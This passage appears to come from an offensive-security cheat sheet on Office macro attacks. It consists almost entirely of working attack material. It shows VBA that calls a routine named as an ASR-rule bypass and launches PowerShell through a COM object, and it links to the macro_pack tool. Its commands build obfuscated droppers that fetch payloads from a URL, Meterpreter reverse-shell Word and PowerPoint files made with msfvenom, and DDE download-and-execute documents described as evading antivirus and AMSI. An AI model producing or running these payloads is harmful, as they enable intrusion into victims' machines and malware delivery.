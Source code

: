 ```ps1
End Sub

Sub AutoOpen()
    ASR_bypass_create_child_process_rule5
End Sub
```

```ps1
Const ShellWindows = "{9BA05972-F6A8-11CF-A442-00A0C90A8F39}"
Set SW = GetObject("new:" & ShellWindows).Item()
SW.Document.Application.ShellExecute "cmd.exe", "/c powershell.exe", "C:\Windows\System32", Null, 0
```

## DOCM/XLM - Macro Pack - Macro and DDE

> Only the community version is available online.

* [https://github.com/sevagas/macro_pack](https://github.com/sevagas/macro_pack/releases/download/v2.0.1/macro_pack.exe)

```powershell
# Options
-G, --generate=OUTPUT_FILE_PATH. Generates a file. 
-t, --template=TEMPLATE_NAME    Use code template already included in MacroPack
-o, --obfuscate Obfuscate code (remove spaces, obfuscate strings, obfuscate functions and variables name)

# Execute a command
echo "calc.exe" | macro_pack.exe -t CMD -G cmd.xsl

# Download and execute a file
echo <file_to_drop_url> "<download_path>" | macro_pack.exe -t DROPPER -o -G dropper.xls

# Meterpreter reverse TCP template using MacroMeter by Cn33liz
echo <ip> <port> | macro_pack.exe -t METERPRETER -o -G meter.docm

# Drop and execute embedded file
macro_pack.exe -t EMBED_EXE --embed=c:\windows\system32\calc.exe -o -G my_calc.vbs

# Obfuscate the vba file generated by msfvenom and put result in a new vba file.
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba | macro_pack.exe -o -G meterobf.vba

# Obfuscate Empire stager vba file and generate a MS Word document:
macro_pack.exe -f empire.vba -o -G myDoc.docm

# Generate an MS Excel file containing an obfuscated dropper (download payload.exe and store as dropped.exe)
echo "https://myurl.url/payload.exe" "dropped.exe" |  macro_pack.exe -o -t DROPPER -G "drop.xlsm" 

# Execute calc.exe via Dynamic Data Exchange (DDE) attack
echo calc.exe | macro_pack.exe --dde -G calc.xslx

# Download and execute file via powershell using Dynamic Data Exchange (DDE) attack
macro_pack.exe --dde -f ..\resources\community\ps_dl_exec.cmd -G DDE.xsl

# PRO: Generate a Word file containing VBA self encoded x64 reverse meterpreter VBA payload (will bypass most AV).
msfvenom.bat -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba |  macro_pack.exe -o --autopack --keep-alive  -G  out.docm

# PRO: Trojan a PowerPoint file with a reverse meterpreter. Macro is obfuscated and mangled to bypass AMSI and most antiviruses.
msfvenom.bat -p windows/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba |  macro_pack.exe -o --autopack --trojan -G  hotpics.pptm
```